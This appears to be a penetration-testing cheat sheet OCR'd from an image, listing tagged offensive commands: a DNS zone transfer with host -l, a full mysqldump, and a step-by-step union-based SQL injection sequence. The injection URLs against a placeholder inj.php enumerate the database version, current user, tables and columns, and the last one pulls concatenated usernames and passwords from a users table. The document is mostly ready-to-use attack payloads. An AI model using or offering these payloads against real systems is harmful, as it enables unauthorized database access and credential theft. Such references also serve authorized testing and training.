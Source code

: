 # host
- service: dns
- tactics: enumeration

## full zone transfer
- `host -l target-dns-ip`

---

# mysqldump
- service: sql
- tactics: initial_access

## backup all mysql databases
- `mysqldump -u username -ppassword --all-databases --single-transaction`

---

# sqli
- service: sql
- service: http
- tactics: inital_access

## check if you can find a row, where you can place your output  
- `http://target-ip/inj.php?id=1 union all select 1,2,3,4,5,6,7,8`

## get the version of the database  
- `http://target-ip/inj.php?id=1 union all select 1,2,3,@@version,5`

## get the current user  
- `http://target-ip/inj.php?id=1 union all select 1,2,3,user(),5`

## see all tables  
- `http://target-ip/inj.php?id=1 union all select 1,2,3,table_name,5 FROM information_schema.tables`

## get column names for a specified table  
- `http://target-ip/inj.php?id=1 union all select 1,2,3,column_name,5 FROM information_schema.columns where table_name='users'`

## concat user names and passwords (0x3a represents “:”)  
- `http://target-ip/inj.php?id=1 union all select 1,2,3,concat(name, 0x3A , password),5 from users`
